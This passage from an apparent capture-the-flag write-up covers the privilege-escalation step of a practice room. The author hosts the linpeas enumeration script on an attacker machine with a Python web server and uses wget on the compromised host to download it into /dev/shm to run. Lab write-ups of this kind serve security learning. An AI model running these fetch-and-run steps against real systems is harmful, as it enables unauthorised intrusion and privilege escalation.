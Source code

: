 ## 2.8 - What is the root flag?

The final task, escalate our privileges and get the root flag. Since I have the password for the current user, I will check their sudo permissions. 

```
boring@kral4-PC:~$ sudo -l
[sudo] password for boring: 
Sorry, user boring may not run sudo on kral4-PC.
```

No luck with that, so I'm going to upload a script that is very helpful for enumerating information to priv esc. I always use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), first I'm going to check for the wget binary so I can download it to the target machine from my machine hosting the file.

```
boring@kral4-PC:~$ which wget
/usr/bin/wget
boring@kral4-PC:~$ ls -la /usr/bin/wget 
-rwxr-xr-x 1 root root 499264 Apr  8  2019 /usr/bin/wget

```

Okay perfect, so now I'll spin up a webserver on my machine hosting the file and use wget to download it to the target machine.

```
┌──(adam㉿Harambe)-[~/thm/easy-peasy/www]
└─$ sudo python3 -m http.server 80
[sudo] password for adam: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

| Argument | Description |  
| :---: | :---: |  
| -m | run library module as a script |  
| http.server | built in module to create a webserver |
| 80 | Uses port 80 (default is 8000) |

I always use the /dev/shm directory when I do this because I know I will have permissions there. So go there and download the file then run it. Don't forget to make it executable.

```
boring@kral4-PC:/dev/shm$ wget http://10.6.11.75/linpeas.sh
--2020-08-20 12:41:38--  http://10.6.11.75/linpeas.sh
Connecting to 10.6.11.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 229696 (224K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                              100%[============================================================================>] 224.31K   306KB/s    in 0.7s    

2020-08-20 12:41:39 (306 KB/s) - ‘linpeas.sh’ saved [229696/229696]
```
